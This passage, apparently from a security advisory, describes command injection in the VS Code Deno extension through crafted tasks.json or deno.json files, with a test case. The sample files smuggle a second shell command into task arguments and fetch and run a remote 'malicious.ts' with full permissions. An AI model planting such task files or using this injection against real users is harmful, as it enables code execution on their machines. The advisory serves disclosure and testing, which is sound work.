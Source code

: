     ```
    Malicious tasks.json/deno.json --> DenoTasksTreeDataProvider/DenoTaskProvider --> buildDenoTask/buildDenoConfigTask --> vscode.ProcessExecution --> Command Injection
    ```
*   **Security Test Case:**
    1. Create a new directory named `malicious-repo`.
    2. Inside `malicious-repo`, create a file named `tasks.json` with the following content:
       ```json
       {
         "version": "2.0.0",
         "tasks": [
           {
             "type": "deno",
             "command": "run",
             "args": [
               "-A",
               "-r",
               "https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts; touch /tmp/pwned"
             ],
             "problemMatcher": [
               "$deno"
             ],
             "label": "malicious: task1"
           }
         ]
       }
       ```
       Alternatively, create `deno.json` with:
       ```json
       {
         "tasks": {
           "maliciousTask": "run -A -r https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts; touch /tmp/pwned"
         }
       }
       ```
       (Note: Replace `https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts` with a real URL that serves a harmless Deno script to avoid actual harmful execution in a real test scenario. For demonstration of command injection, the `; touch /tmp/pwned` is key.)

    3. Open VSCode and open the `malicious-repo` directory as a workspace folder. Ensure the Deno extension is enabled for this workspace.
    4. For `tasks.json` test case:
       - Open the Command Palette (Ctrl+Shift+P or Cmd+Shift+P) and type "Tasks: Run Task".
       - Select "malicious: task1".
    5. For `deno.json` test case:
       - Open the "Deno Tasks" sidebar (if visible, otherwise enable it).
       - Locate "maliciousTask" under your workspace.
       - Click the "Run Task" icon next to "maliciousTask".
    6. Observe the execution. If the command injection is successful, a file named `pwned` will be created in the `/tmp/` directory (or user's temp directory depending on OS and injected command).
    7. Verify the file creation by checking `/tmp/pwned`. If the file exists, the command injection vulnerability is confirmed.
